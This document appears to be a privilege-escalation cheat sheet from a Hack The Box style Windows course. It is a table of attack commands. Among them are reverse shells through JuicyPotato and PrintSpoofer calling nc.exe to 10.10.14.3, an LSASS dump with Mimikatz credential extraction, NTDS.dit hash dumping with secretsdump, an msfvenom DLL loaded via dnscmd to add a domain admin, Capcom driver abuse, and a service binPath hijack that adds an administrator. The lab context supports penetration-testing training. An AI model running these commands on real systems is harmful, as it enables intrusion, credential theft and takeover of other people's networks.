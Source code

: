 | **Command** | **Description** |
| --------------|-------------------|
| `mssqlclient.py sql_dev@10.129.43.30 -windows-auth` | Connect using mssqlclient.py |
| `enable_xp_cmdshell`                            | Enable xp_cmdshell with mssqlclient.py |
| `xp_cmdshell whoami`                                 | Run OS commands with xp_cmdshell |
| `c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 443 -e cmd.exe" -t *` | Escalate privileges with JuicyPotato                       |
| `c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"` | Escalating privileges with PrintSpoofer                    |
| `procdump.exe -accepteula -ma lsass.exe lsass.dmp`           | Take memory dump with ProcDump                             |
| `sekurlsa::minidump lsass.dmp` and `sekurlsa::logonpasswords` | Use MimiKatz to extract credentials from LSASS memory dump |
| `dir /q C:\backups\wwwroot\web.config`                       | Checking ownership of a file                               |
| `takeown /f C:\backups\wwwroot\web.config`                   | Taking ownership of a file                                 |
| `Get-ChildItem -Path ‘C:\backups\wwwroot\web.config’ \| select name,directory, @{Name=“Owner”;Expression={(Ge t-ACL $_.Fullname).Owner}}` | Confirming changed ownership of a file                     |
| `icacls “C:\backups\wwwroot\web.config” /grant htb-student:F` | Modifying a file ACL                                       |
| `secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL` | Extract hashes with secretsdump.py |
| `robocopy /B E:\Windows\NTDS .\ntds ntds.dit` | Copy files with ROBOCOPY |
| `wevtutil qe Security /rd:true /f:text \| Select-String "/user"` | Searching security event logs |
| `wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 \| findstr "/user"` | Passing credentials to wevtutil |
| `Get-WinEvent -LogName security \| where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*' } \| Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}` | Searching event logs with PowerShell |
| `msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll` | Generate malicious DLL |
| `dnscmd.exe /config /serverlevelplugindll adduser.dll` | Loading a custom DLL with dnscmd |
| `wmic useraccount where name="netadm" get sid` | Finding a user's SID |
| `sc.exe sdshow DNS` | Checking permissions on DNS service |
| `sc stop dns` | Stopping a service |
| `sc start dns` | Starting a service |
| `reg query \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters` | Querying a registry key |
| `reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters  /v ServerLevelPluginDll` | Deleting a registry key |
| `sc query dns` | Checking a service status |
| `Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local` | Disabling the global query block list |
| `Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3` | Adding a WPAD record |
| `cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp` | Compile with cl.exe |
| `reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"` | Add reference to a driver (1) |
| `reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1` | Add reference to a driver (2) |
| `.\DriverView.exe /stext drivers.txt` and `cat drivers.txt \| Select-String -pattern Capcom` | Check if driver is loaded |
| `EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys` | Using EopLoadDriver |
| `c:\Tools\PsService.exe security AppReadiness` | Checking service permissions with PsService |
| `sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"` | Modifying a service binary path |
| `REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA` | Confirming UAC is enabled |
| `REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin` | Checking UAC level |